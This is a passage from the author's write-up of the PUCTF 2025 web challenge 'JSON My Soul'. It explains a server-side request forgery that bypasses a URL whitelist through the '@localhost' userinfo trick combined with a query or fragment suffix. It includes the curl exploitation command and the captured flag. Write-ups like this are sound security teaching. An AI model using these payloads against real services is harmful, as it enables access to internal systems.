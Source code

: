 In the above case, if we send payload `http://api@localhost/flag`, the final URL will be like this: `http://api@localhost/flag/api/weather`. Since this appended URL endpoint (`/flag/api/weather`) doesn't exist on the `frontend` service, it'll return HTTP status "404 Not Found".

To solve this issue, we can append a [URL query](https://datatracker.ietf.org/doc/html/rfc3986#section-3.4) to our payload:

```
http://api@localhost/flag?foo=
```

Or, you can use [URL fragment](https://datatracker.ietf.org/doc/html/rfc3986#section-3.5) (`#`) to let the request treat `/api/weather` as a fragment:

```
http://api@localhost/flag#
```

> Note: Make sure you URL encode your payload. Otherwise the `url` parameter's value might be treated as another parameter or URL fragment.

By doing so, we can bypass the flawed whitelist validation and the appended `API_ENDPOINT`.

## Exploitation

Armed with above information, we can send the following GET request to get the flag:

```shell
┌[siunam♥Mercury]-(~/ctf/PUCTF-2025/Web-Exploitation/JSON-My-Soul)-[2025.04.29|15:03:19(HKT)]
└> curl -s --get http://chal.polyuctf.com:41342/api/weather --data 'url=http://api@localhost/flag?foo=' | jq -r '.["message"]'
PUCTF25{WH173l1S7_4Pp0R4cH_C4N_4lS0_b3_BYP4223d_33671ad267a035702f9222a37d6776c2}
```

- **Flag: `PUCTF25{WH173l1S7_4Pp0R4cH_C4N_4lS0_b3_BYP4223d_33671ad267a035702f9222a37d6776c2}`**

## Why I Made This Challenge

Originally, this challenge is something related to parser differential between JSON and XML, or how clean code can lead to vulnerability (Inspired from this LiveOverflow video: [Authentication Bypass Using Root Array](https://www.youtube.com/watch?v=2vAr9K5chII)). I even named this challenge title: "JSON My Soul", which is a reference to one of many Hololive's memes, [JDON My Soul](https://www.youtube.com/watch?v=k2naDLRJA50).

However, during my free time, I came across with this video from [freeCodeCamp.org](https://www.youtube.com/@freecodecamp): [JavaScript Security Vulnerabilities Tutorial – With Code Examples](https://youtu.be/ypNKKYUJE5o). In Brandon's second example, he demo'd a simple SSRF attack (Starting from [5:23](https://youtu.be/ypNKKYUJE5o?t=323)). In the mitigation example, he validates the URL in a whitelist approach, like the following:

```javascript
const allowedURLs = ["https://internal.myapp.com/data/countries.json", "https://internal.myapp.com/data/states.json"]
const url = req.query.url;

if (!allowedURLs.includes(url)) {
    return res.status(400).json({ error: "Bad URL" });
}
```
